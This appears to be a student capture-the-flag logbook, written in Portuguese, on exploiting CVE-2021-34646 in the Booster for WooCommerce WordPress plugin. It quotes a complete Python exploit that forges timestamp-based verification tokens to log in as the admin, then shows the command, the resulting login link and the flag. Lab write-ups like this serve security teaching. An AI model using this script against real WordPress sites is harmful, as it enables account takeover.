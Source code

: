 # LOGBOOK3 - Wordpress CVE

### Reconhecimento - Informações encontradas após utilizar o website
- **Versão do WordPress** - 5.8.1
  <br>
- **Plugins instalados e versões dos mesmos**:
    - WooCommerce plugin - 5.7.1
    - Booster for WooCommerce plugin - 5.4.3
      <br>
- **Possíveis utilizadores e nomes de utilizadores**:
    - admin
    - Orval Sanford

### Pesquisa por vulnerabilidades - Utilização de uma base de dados para descobrir a CVE
Utilizamos o website [Exploit Database](https://www.exploit-db.com) para descobrir com que vulnerabilidade estávamos a lidar e descobrimos que era a **CVE-2021-34646**.

Assim foi possível encontrar um script de python que era capaz de dar exploit a esta vulnerabilidade:
>1:
>Goto: https://target.com/wp-json/wp/v2/users/
>Pick a user-ID (e.g. 1 - usualy is the admin)
>
>2:
Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
>
>3:
>Check-Out  out which of the generated links allows you to access the system
>
>import requests,sys,hashlib
> 
>import argparse
> 
>import datetime
> 
>import email.utils
> 
>import calendar
> 
>import base64
>
>B = "\033[94m"
> 
>W = "\033[97m"
> 
>R = "\033[91m"
> 
>RST = "\033[0;0m"
>
>parser = argparse.ArgumentParser()
> 
>parser.add_argument("url", help="the base url")
> 
>parser.add_argument('id', type=int, help='the user id', default=1)
> 
>args = parser.parse_args()
> 
>id = str(args.id)
> 
>url = args.url
> 
>if args.url[-1] != "/": # URL needs trailing /
> 
>url = url + "/"
>
>verify_url= url + "?wcj_user_id=" + id
> 
>r = requests.get(verify_url)
>
>if r.status_code != 200:
> 
>print("status code != 200")
> 
>print(r.headers)
> 
>sys.exit(-1)
>
>def email_time_to_timestamp(s):
> 
>tt = email.utils.parsedate_tz(s)
> 
>if tt is None: return None
> 
>return calendar.timegm(tt) - tt[9]
>
>date = r.headers["Date"]
> 
>unix = email_time_to_timestamp(date)
>
>def printBanner():
> 
>print(f"{W}Timestamp: {B}" + date)
> 
> 
>print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
> 
>print("We need to generate multiple timestamps in order to avoid delay related timing errors")
> 
>print("One of the following links will log you in...\n")
>
>printBanner()
> 
>for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
>
>hash = hashlib.md5(str(unix-i).encode()).hexdigest()
>
>print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
>
>token='{"id":"'+ id +'","code":"'+hash+'"}'
>
>token = base64.b64encode(token.encode()).decode()
>
>token = token.rstrip("=") # remove trailing =
>
>link = url+"my-account/?wcj_verify_email="+token
>
>print(link + f"\n{RST}")


<div style="text-align: justify">
De forma a conseguirmos utilizar este script temos de o correr utilizando este comando "./exploit_CVE-2021-34646.py https://target.com/ 1" que neste caso seria "./50299.py http://ctf-fsi.fe.up.pt:5001 1", sendo o segundo elemento o link para o website e o terceiro elemento o id do utilizador ao qual conta queremos aceder (admin id = 1).

Com isto é gerado três links que nos permitem aceder a certas contas. Utilizando o link "http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiOWEwYzQ3MzcwZGY5ODBhNDU5NTYwYWIzYTUxNTI0NGYifQ", somos redirecionados para o mesmo website mas desta vez estando dentro da conta de um admin. Ai conseguimos aceder a uma mensagem privada aonde é mencionada a flag:

**flag{please don't bother me}**
</div>
